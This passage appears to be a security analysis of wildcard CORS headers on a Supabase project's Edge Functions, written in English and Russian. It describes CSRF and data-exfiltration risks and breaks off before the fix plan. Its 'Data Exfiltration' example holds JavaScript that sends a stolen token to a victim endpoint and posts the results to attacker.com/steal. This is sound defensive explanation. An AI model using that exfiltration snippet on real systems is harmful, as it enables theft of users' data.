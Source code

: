 # CORS Security Analysis and Fix Plan

## 🚨 Critical Security Issue Found

### Problem Overview

**30+ Edge Functions** currently use wildcard CORS:
```typescript
const corsHeaders = {
  'Access-Control-Allow-Origin': '*',  // ❌ DANGEROUS!
};
```

This allows **ANY website** to call your Edge Functions, creating serious security vulnerabilities.

---

## ⚠️ Why Wildcard CORS (`*`) is Dangerous

### 1. **Cross-Site Request Forgery (CSRF) Risk**

**Scenario:**
```
User visits malicious-site.com
↓
malicious-site.com makes request to:
https://uzcmaxfhfcsxzfqvaloz.supabase.co/functions/v1/ai-orchestrator
↓
Request succeeds because CORS allows ANY origin (*)
↓
Attacker can access user's data, execute queries, etc.
```

**Real-world impact:**
- Злоумышленник может вызвать ваши функции со своего сайта
- Пользователь даже не узнает об этом
- Аутентификация не защищает, т.к. браузер передает cookies/tokens автоматически

### 2. **Data Exfiltration**

```javascript
// На сайте attacker.com:
fetch('https://your-project.supabase.co/functions/v1/generate-report', {
  method: 'POST',
  headers: {
    'Authorization': 'Bearer ' + stolenToken,  // Украденный токен
  },
  body: JSON.stringify({ database_id: 'victim-db' })
})
.then(r => r.json())
.then(data => {
  // Отправляем данные на сервер злоумышленника
  fetch('https://attacker.com/steal', {
    method: 'POST',
    body: JSON.stringify(data)
  });
});
```
